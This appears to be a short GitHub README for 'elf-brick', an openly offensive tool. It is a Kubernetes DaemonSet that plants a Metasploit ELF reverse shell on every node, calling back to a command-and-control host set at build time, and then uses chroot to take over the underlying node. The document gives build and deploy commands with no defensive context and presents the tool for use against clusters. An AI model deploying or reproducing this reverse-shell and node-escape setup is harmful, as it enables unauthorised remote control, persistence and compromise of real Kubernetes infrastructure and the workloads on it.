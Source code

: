# elf-brick

Kubernetes Daemonset that deploys a Metasploit elf reverse shell back to your C&C and gives access to the underlying node.
The Daemonset will deploy a reverse shell per node.

## How to build

```sh
docker build -t elf-brick . --build-arg HOST="IP" --build-arg PORT="PORT"
```

### How to deploy

```sh
kubectl apply -f daemonset.yaml
```

#### Node

```sh
chroot /chroot
```

